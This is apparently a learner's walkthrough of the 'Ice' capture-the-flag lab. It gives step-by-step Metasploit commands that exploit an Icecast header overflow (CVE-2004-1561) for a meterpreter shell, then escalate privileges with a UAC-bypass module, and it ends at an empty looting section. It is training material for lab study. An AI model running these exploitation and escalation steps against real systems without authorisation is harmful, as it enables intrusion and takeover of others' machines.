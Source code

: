# Ice

## Recon
Just started off with an aggressive, all ports scan
`sudo nmap -A -vvv -p- -oN aggressivenmapallports {machine ip}`

### What port is Microsoft Remote desktop on?
Had to search the ports for this as the service name/version didn't specify (not sure if this is always the case?)
port 3389 had service 'ssl/ms-wbt-server?', which when googled found that it was microsoft remote desktop.

### What service is runing on port 8000?
Icecast streaming media server 

### What does nmap identify as the hostname of the machine? 
dark-pc

## Gain access
### What type of vulnerability is the cvedetails listing with a score of 7.5 for this version of icecast?
Couldn't actually find a listing of the version of icecast in my scan, but just tried a few vulnerabilities and found the one in question:
'execute code overflow'

### What's the cve number for this vulnerability?
CVE-2004-1561

### What's the metasploit path for this exploit?
`msfconsole`
`search icecast`
only one result, exploit/windows/http/icecast_header
`use 0`

### What is the only required setting that is blank for the exploit?
`show options`
ans is RHOSTS and the RPORT is already correct so we:
`set RHOSTS <machine ip>`
`exploit`

## Escalate
### What's the name of the shell we have now?
meterpreter
more about meterpreter https://www.offensive-security.com/metasploit-unleashed/about-meterpreter/

### What user was running the icecast process?
`help` in meterpreter shell lists out commands
`getuid` gets our current username, Dark-PC\Dark - meaning our user is Dark

### What build of Windows is the system?
`sysinfo` shows us various info including os & build / service packs
this line 'OS              : Windows 7 (6.1 Build 7601, Service Pack 1).'
shows us the answer is 7601

### finer details: what is the architecture of the process we're running?
The system architecture is x64 as shown in the sysinfo, but we don't know for certain that the process is the same
`getpid` gives us our process id, 2260
`ps` shows us a list of processes, track down 2260 and we see:
'2260  1328  Icecast2.exe          x86   1        Dark-PC\Dark  C:\Program Files (x86)\Icecast2 Win32\Icecast2.exe'
the 'arch' cvolumn shows us x86

Answer is x64 though? I guess it wanted the machine architecture and not the process

### run the local exploit suggester
in the meterpreter:
'run post/multi/recon/local_exploit_suggester'

### What's the first result?
'exploit/windows/local/ikeext_service: The target appears to be vulnerable.'
answer is 'exploit/windows/local/ikeext_service'

### background session, load the next exploit (first result from prev q)
ctrl-z to background
`use exploit/windows/local/bypassuac_eventvwr'
`show options` - shows us we just need the session number
`sessions` gets active sessions, our session id is 1
`set SESSION 1`

### Now that we've set our session number, more options in the options menu
`show options` - we now see our external ip is the lhost rather than the tryhackme one
`set LHOST {thm ip}`
`exploit`

### command getprivs lets us verify we have expanded permissions, what permission allows us to take ownership of files?`
SeTakeOwnershipPrivilege looks right, and it is

## Looting
